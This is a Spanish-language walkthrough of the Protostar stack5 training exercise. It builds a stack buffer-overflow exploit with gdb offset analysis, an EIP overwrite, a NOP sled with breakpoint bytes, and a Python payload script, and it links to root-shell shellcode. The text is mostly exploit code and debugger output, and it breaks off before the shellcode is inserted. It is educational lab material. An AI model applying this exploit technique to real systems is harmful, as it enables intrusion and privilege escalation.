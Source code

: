 # Shellcode BufferOverflow -> [stack5](https://exploit.education/protostar/stack-five/)


```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*17 + 'BBBB')" | ./stack5
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*18 + 'BBBB')" | ./stack5
Segmentation fault
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*18 + 'BBBB')" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack5
(gdb) run </tmp/pattern
Program received signal SIGSEGV, Segmentation fault. Cannot access memory at address 0x4242424a
(gdb) x/40ex $esp
0xbffff6ac:	0x42424242	0x00000001	0xbffff754	0xbffff75c -> Entonces nuestro eip es "0xbffff6ac"
(gdb) set disassembly-flavor intel
(gdb) disas main
0x080483d9 <main+21>:	leave  
(gdb) b *0x080483d9
(gdb) run </tmp/pattern
(gdb) x/16x $esp
0xbffff650:	0xbffff660	0xb7ec6165	0xbffff668	0xb7eada75
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141 -> La entrada de "A" empeiza en 0xbffff660
(gdb) p 0xbffff6ac - 0xbffff660
$4 = 76 -> La diferencia entre el cominezo de las AAAA y el eip es de 76.
```
¿Entonces que queremos? Queremos que el eip salte unas pocas posiciones despues y caiga en codigo a ejecutar. 

> NOPs -> "no operation code" código que no hace nada más que seguir el flujo del programa... un tobogan hacia lo que vaya despues.
> \xCC -> Son insutrccione de breakpoint o pausa, si funcionan estas, funcionara un shellcode futuro.

> Shellcode -> El shellcode es codigo a bajo nivel que hace determinadas acciones, en este caso darnos una consola como root.

La cosa esque por las varaibles de entorno y demás, varia la pila entre gdb y fuera de él... así que exactamente no se sabe donde caerá este eip. Si tenemos un shellcode pero el eip cae en mitad lo "rebanará" y ya no funcionará bien, asi que tiene que caer en los nops estos que continuarán el flujo del programa al principio del shellcode que va detras. (De ahí la metáfora del tobogán que te desliza)

```python
import struct
offset = "A"*76
eip = struct.pack('I', 0xbffff6ac+10) # eip original mas unas pocas posiciones
nops = "\x90" *20 # Unos cuantos nops
stop = "\xCC"*4  # El codigo breakpoint de prueba
print(offset + eip + nops + stop)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py > /tmp/pattern
(gdb) run </tmp/pattern
Starting program: /opt/protostar/bin/stack5 </tmp/pattern
Program received signal SIGTRAP, Trace/breakpoint trap. 
(gdb) x/40wx $esp
0xbffff6b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff6c0:	0x90909090	0xcccccccc
```
Ha funcionado, asi que lo que queda es sutituir ese breakpoint por el [shellcode](https://shell-storm.org/shellcode/files/shellcode-219.php)
```python
import struct
offset = "A"*76
eip = struct.pack('I', 0xbffff6ac+10)
```